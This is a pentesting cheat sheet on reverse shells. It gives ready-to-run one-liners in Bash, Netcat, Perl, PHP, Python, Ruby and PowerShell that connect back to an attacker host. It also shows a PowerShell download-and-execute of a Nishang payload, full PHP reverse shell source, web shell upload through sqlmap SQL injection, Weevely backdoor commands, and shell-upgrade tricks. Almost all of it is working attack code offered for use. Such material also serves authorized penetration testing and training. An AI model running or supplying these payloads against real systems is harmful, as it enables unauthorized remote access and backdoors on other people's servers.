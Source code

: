 ```yaml
---
title: Reverse Shell
desc: 
tags: [Linux, Netcat, PrivEsc, Privilege, Reverse, Shell, Windows]
alts: [Linux-Privilege-Escalation, Windows-Privilege-Escalation]
render_with_liquid: false
---
```


## Basic Flow

First of all, open listener in local machine.

```sh
nc -lvnp 4444
```

- **Reverse Shell via Command Line**

    - **Bash**

        ```sh
        bash -i >&  /dev/tcp/10.0.0.1/4444 0>&1
        ```

    - **Netcat OpenBSD**

        ```sh
        rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f
        ```

    - **Perl**

        ```sh
        perl -e 'use Socket;$i="10.0.0.1";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
        ```

    - **PHP**

        ```sh
        php -r '$sock=fsockopen("10.0.0.1",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
        ```

    - **Python**

        ```sh
        export RHOST="10.0.0.1";export RPORT=4444;python -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
        ```

        - **Python3 & Bash**

            ```sh
            export RHOST="10.0.0.1";export RPORT=4444;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
            ```

    - **Ruby**

        ```sh
        ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
        ```

    - **PowerShell**

        ```sh
        powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.0.0.1",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

        powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('10.0.0.1',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
        ```

    - **Nishang**

        **[Nishang](https://github.com/samratashok/nishang){:target="_blank"}{:rel="noopener"}** is the Offensive PowerShell for red team, penetration testing and offensive security.

        1. **Preparing the Payload in Your Local Machine**

            First off, copy the payload to the current working directory.

            ```sh
            cp /usr/share/nishang/Shells/Invoke-PowerShellTcp.ps1 .
            mv Invoke-PowerShellTcp.ps1 shell.ps1
            ```

            Add the following code to the final line in the payload (shell.ps1).

            ```powershell
            Invoke-PowerShellTcp -Reverse  -IPAddress <your-local-ip> -Port 4444
            ```

        2. **Opening Wev Server in Your Local Machine**

            To download the payload and execute the reverse shell in the target machine, open the web server in your local machine.

            ```sh
            python3 -m http.server 8000
            ```

        3. **Downloading the Payload and Executing Reverse Shell**

            In the target machine, download the local-hosted payload and run reverse shell.

            ```sh
            cmd /c powershell IEX (New-Object Net.WebClient).DownloadString('http://<your-local-ip>:8000/shell.ps1')
            ```

- **Reverse Shell via Website**

    -  **PHP Reverse Shell**

        [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell){:target="_blank"} is an awesome payload against a website using PHP.

        ```sh
        wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

        # Edit $ip and $port to your local ip:port in the payload
        ```

        Update $ip and $port in the payload to your local ip and port.

        Then upload the payload, or copy the content and paste to somewhere in the target website directly, and reload the page.

    - **PHP Reverse Shell (without fsockopen, and for FreeBSD)**

        If the target website validates 

        ```php
        <?php
        set_time_limit (0);
        $ip = '10.0.0.1';  // CHANGE THIS
        $port = 4444;      // CHANGE THIS

        // Spawn shell process
        $descriptorspec = array(
        0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
        1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
        2 => array("file", "/tmp/error-output.txt", "a")   // stderr is a pipe that the child will write to
        );

        $cwd = "/tmp";
        $env = array('some_option' => 'aeiou');

        $process = proc_open('sh', $descriptorspec, $pipes, $cwd, $env);

        if (is_resource($process)) {
            fwrite($pipes[0], 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $ip $port >/tmp/f');
            fclose($pipes[0]);

            echo stream_get_contents($pipes[1]);
            fclose($pipes[1]);

            $return_value = proc_close($process);
            echo "command returned $return_value\n";
        }
        ?>
        ```

    - **Upload the Payload using SQLi**

        ```sh
        # req.txt: The request settings file which is saved using Burp Suite
        sqlmap -r req.txt --dbs --random-agent --batch --file-dest=/var/www/html/shell.php --file-write=./shell.php
        ```

    - **Useful Tools**

        - **[Weevely3](https://github.com/epinna/weevely3){:target="_blank"}{:rel="noopener"}**

            A web shell generator.

            1. **Generate Backdoor with Password**

                Credentials required.

                ```sh
                weevely generate <password> ./shell.php
                ```

            2. **Upload the Payload to Target Website and Execute Commands**

                ```sh
                weevely https://vulnerable.com/upload/shell.php <password> whoami
                ```

            3. **Get a Shell**

                ```sh
                weevely https://vulnerable.com/upload/shell.php <password>
                ```

<br />

## Upgrade to a Full Functional Shell

After connecting to target shell with reverse shell, it's recommended to make the shell to be more elegant.

```sh
SHELL=/bin/bash script -q /dev/null
# or
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

The commands below make "your" shell even more perfect.

```sh
Ctrl+z
stty raw -echo;fg
Enter x2
export TERM=xterm
```

<br />

## Pwncat

**[Pwncat](https://pwncat.org/){:target="_blank"}{:rel="noopener"}** is a reverse and bind shell handler.
